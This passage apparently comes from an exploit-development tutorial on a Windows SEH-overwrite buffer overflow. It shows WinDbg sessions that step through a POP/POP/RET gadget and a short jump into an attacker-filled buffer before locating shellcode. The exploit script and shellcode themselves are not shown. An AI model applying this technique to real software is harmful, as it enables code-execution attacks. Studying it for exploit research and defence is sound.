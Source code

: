 Run the PoC, set a breakpoint to the P/P/R instruction, and let the debugger continue until it hit our breakpoint.

Then singe step through the P/P/R instruction sand reach our short jump.

```bash
0:011> t
eax=77705b32 ebx=01a1f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=01a1ff45 esp=01a1f44c ebp=01a1f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01a1ff45 90              nop
0:011> t
eax=77705b32 ebx=01a1f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=01a1ff46 esp=01a1f44c ebp=01a1f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01a1ff46 eb06            jmp     01a1ff4e
0:011> dd 01a1ff4e - 0x06
01a1ff48  1015a2f0 41414141 41414141 41414141
01a1ff58  41414141 41414141 41414141 41414141
01a1ff68  41414141 41414141 41414141 41414141
01a1ff78  41414141 41414141 41414141 41414141
01a1ff88  41414141 41414141 41414141 41414141
01a1ff98  41414141 41414141 41414141 41414141
01a1ffa8  41414141 41414141 41414141 41414141
01a1ffb8  41414141 41414141 41414141 41414141
```

As we can see, if we execute the short jump, we will indeed land in our buffer right after the SEH.

### 9. Locate the Shellcode.<a name="LocateShellcode"></a>

Now inspecting the memory pointed to by the instruction pointer, we see that we are very close to reaching the beginning of our stack.

```bash
0:011> dd eip L30
01a1ff46  a2f006eb 41411015 41414141 41414141
01a1ff56  41414141 41414141 41414141 41414141
01a1ff66  41414141 41414141 41414141 41414141
01a1ff76  41414141 41414141 41414141 41414141
01a1ff86  41414141 41414141 41414141 41414141
01a1ff96  41414141 41414141 41414141 41414141
01a1ffa6  41414141 41414141 41414141 41414141
01a1ffb6  41414141 41414141 41414141 41414141
01a1ffc6  41414141 ff004141 84b001a1 966b776f
01a1ffd6  000085cf ffec0000 267901a1 ffff7768
01a1ffe6  5ca3ffff 00007770 00000000 3e100000
01a1fff6  3b50008b 000000de ???????? ????????

0:011> !teb
TEB at 00380000
    ExceptionList:        01a1f454
    StackBase:            01a20000
    StackLimit:           01a1e000
...
```
